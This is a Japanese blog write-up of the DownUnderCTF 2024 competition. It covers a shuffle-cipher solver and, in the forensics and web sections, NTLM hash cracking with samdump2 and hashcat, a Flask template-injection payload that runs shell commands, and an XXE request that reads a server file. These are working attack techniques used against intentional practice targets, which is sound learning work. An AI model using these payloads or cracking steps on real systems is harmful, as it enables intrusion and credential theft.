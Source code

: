 ```yaml
---
Title: DownUnderCTF 2024 Writeup
Category:
- CTF
- Tech
Date: 2024-07-10T02:37:53+09:00
URL: https://macchanism.hateblo.jp/entry/downunderctf2024-writeup
EditURL: https://blog.hatena.ne.jp/macchanism/macchanism.hateblo.jp/atom/entry/6801883189119936767
---
```


DownUnderCTFに，3人チームで参加した．

[f:id:macchanism:20240708030222j:plain]

<!-- more -->

私が解いたのは

* [crypto] Sun Zi's Perfect Math Class
* [crypto] shufflebox
* [misc] tldr please summarise
* [misc] DNAdecay
* [forensics] Baby's First Forensics
* [forensics] SAM I AM
* [osint] offtheramp
* [osint] Bridget Lives
* [osint] cityviews
  * 9割は仲間のおかげ
* [web] parrot the emu
* [web] zoo feedback form

である．

<span style="font-size: 150%">目次</span>
[:contents]

公式のwriteupと異なる解き方をした問題を執筆する．

## [crypto] Sun Zi's Perfect Math Class
公式のソルバーとやっていることは近いと思う．

[https://github.com/DownUnderCTF/Challenges_2024_Public/blob/main/beginner/sunzi-perfect-math-class/solve/solve.py:embed:cite]

私はこのサイトのコードを利用した．

[https://www.ochappa.net/posts/rsa-hba:embed:cite]


## [crypto] shufflebox
文字列を暗号化(シャッフル)するプログラムは以下の通りである．

```python
import random

PERM = list(range(16))
random.shuffle(PERM)

def apply_perm(s):
	assert len(s) == 16
	return ''.join(s[PERM[p]] for p in range(16))

for line in open(0):
	line = line.strip()
	print(line, '->', apply_perm(line))

#aaaabbbbccccdddd -> ccaccdabdbdbbada
#abcdabcdabcdabcd -> bcaadbdcdbcdacab
#???????????????? -> owuwspdgrtejiiud
```

### writeup
ソルバーは以下の通りである．

```python
from itertools import permutations as perms

# 与えられたパーミュテーションを使ってメッセージを暗号化する関数
def enc(msg, perm):
	return ''.join(msg[perm[p]] for p in range(16))

# パーミュテーションの逆を使って暗号文を復号化する関数
def dec(cip, perm):
    perm_inv = [None]*16
    for idx, val in enumerate(perm):
        perm_inv[val] = idx
    return enc(cip, perm_inv)

# 与えられたメッセージと暗号文
msg0 = 'aaaabbbbccccdddd'
cip0 = 'ccaccdabdbdbbada'
msg1 = 'abcdabcdabcdabcd'
cip1 = 'bcaadbdcdbcdacab'
cip_flag = 'owuwspdgrtejiiud'

# cip0中の 'a', 'b', 'c', 'd' のインデックスの全ての順列を繰り返し処理
for a in [p for p in perms([idx for idx, char in enumerate(cip0) if char=='a'])]:
    for b in [p for p in perms([idx for idx, char in enumerate(cip0) if char=='b'])]:
        for c in [p for p in perms([idx for idx, char in enumerate(cip0) if char=='c'])]:
            for d in [p for p in perms([idx for idx, char in enumerate(cip0) if char=='d'])]:
                # 順列を結合して完全なパーミュテーションを作成
                PERM = [None]*16
                for idx, val in enumerate([v for v in a] + [v for v in b] + [v for v in c] + [v for v in d]):
                    PERM[val] = idx
                # パーミュテーションが正しくmsg1をcip1に暗号化するか確認
                if enc(msg1, PERM) == cip1:
                    # 見つかったパーミュテーションを使ってcip_flagを復号
                    print(dec(cip_flag, PERM))
```

シャッフルするテーブル `PERM` が秘密情報であるので，その特定から始める．以下を繰り返すことで， `PERM` が手に入る．

1. 平文と暗号文の組 `(aaaabbbbccccdddd, ccaccdabdbdbbada)` から，あり得る `PERM` を見つける
2. `PERM` が平文 `abcdabcdabcdabcd` から 暗号文 `bcaadbdcdbcdacab` を生成するかチェック

最後に暗号文 `owuwspdgrtejiiud` から平文を復号することで，フラグを獲得する．

## [forensics] SAM I AM

公式のwriteupと同じ解き方で取り組んだ．

[https://github.com/DownUnderCTF/Challenges_2024_Public/blob/main/forensics/samiam/solve/WRITEUP.md:embed:cite]

`hashcat` でクラックに取り組み，ワードリストに `rockyou.txt` を採用した．解き方はChatGPTに聞いたら教えてくれた．

```shell
$ samdump2 SYSTEM SAM > hashes.txt
$ hashcat -m 1000 hashes.txt rockyou.txt 

(中略)

31d6cfe0d16ae931b73c59d7e0c089c0:                         
476b4dddbbffde29e739b618580adb1e:!checkerboard1           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: hashes.txt
Time.Started.....: Sun Jul  7 09:32:52 2024 (2 secs)
Time.Estimated...: Sun Jul  7 09:32:54 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  7801.5 kH/s (0.16ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new)
Progress.........: 14340096/14344384 (99.97%)
Rejected.........: 0/14340096 (0.00%)
Restore.Point....: 14327808/14344384 (99.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $CaRaMeL -> !carolyn
```

## [web] parrot the emu

[https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/beginner/parrot-the-emu:embed:cite]

Flaskの `render_template_string` が怪しいと感じたので，`flask 2.0.3 render_template_string` でGoogle検索し，脆弱性やCTFにおける攻撃シナリオを調べた．

[https://blog.hamayanhamayan.com/entry/2021/12/15/225142:embed:cite]

このサイトを参考に `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read()}}` を入力した．

[f:id:macchanism:20240706212259p:plain]

どうやらシェルコマンドを実行できるらしいので，素直にフラグを `cat` した．

[f:id:macchanism:20240706212329p:plain]

## [web] zoo feedback form

[https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/beginner/zoo-feedback-form:embed:cite]

`etree.XMLParser(resolve_entities=True)` が怪しいと感じ，脆弱性や攻撃シナリオを調べた．

[https://nanimokangaeteinai.hateblo.jp/entry/2024/02/14/120000:embed:cite]

上記サイトで，XMLといえば "XML External Entity" と言及があった．特に `resolve_entities=True` は危険な引数の設定らしい．

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity:embed:cite]

このサイトを参考に具体的な攻撃方法を調べ，実行した．

```bash
$ curl https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/ -X POST -H 'Content-Type: application/xml' -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]> <root> <feedb
ack>&xxe;</feedback> </root>'

<div style="color:green;">Feedback sent to the Emus: DUCTF{emU_say$_he!!0_h0!@_ci@0}
</div>
```

